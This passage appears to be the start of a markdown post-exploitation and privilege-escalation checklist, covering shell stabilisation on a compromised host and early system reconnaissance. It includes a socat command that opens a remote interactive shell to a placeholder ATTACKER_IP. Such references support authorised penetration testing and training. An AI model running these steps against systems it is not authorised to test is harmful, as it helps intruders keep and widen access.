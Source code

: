# Post-Exploitation & Privilege Escalation Master Checklist

## ☑️ Phase 1: Initial Shell Stabilization & Setup

### Shell Stabilization
- [ ] **Python TTY Method**
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  # OR
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```
- [ ] **Background and configure shell**
  ```bash
  # Press Ctrl + Z to background
  # On local machine:
  stty raw -echo; fg
  # Back in reverse shell:
  export TERM=xterm
  export SHELL=bash
  stty rows 38 columns 116
  ```
- [ ] **Alternative: Script method**
  ```bash
  script /dev/null -c bash
  ```
- [ ] **Alternative: Socat method** (if available)
  ```bash
  # Attacker: socat file:`tty`,raw,echo=0 tcp-listen:4444
  # Target: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
  ```

### Basic Environment Setup
- [ ] **Check current context**
  ```bash
  whoami && id
  echo $0
  echo $SHELL
  ```
- [ ] **Set up aliases**
  ```bash
  alias ll='ls -la'
  alias la='ls -la'
  alias ..='cd ..'
  ```

---

## ☑️ Phase 2: System Reconnaissance

### System Information
- [ ] **OS and kernel details**
  ```bash
  uname -a
  cat /etc/os-release
  cat /etc/issue
  cat /proc/version
  lsb_release -a
  ```
- [ ] **Architecture**
  ```bash
  uname -m
  arch
  ```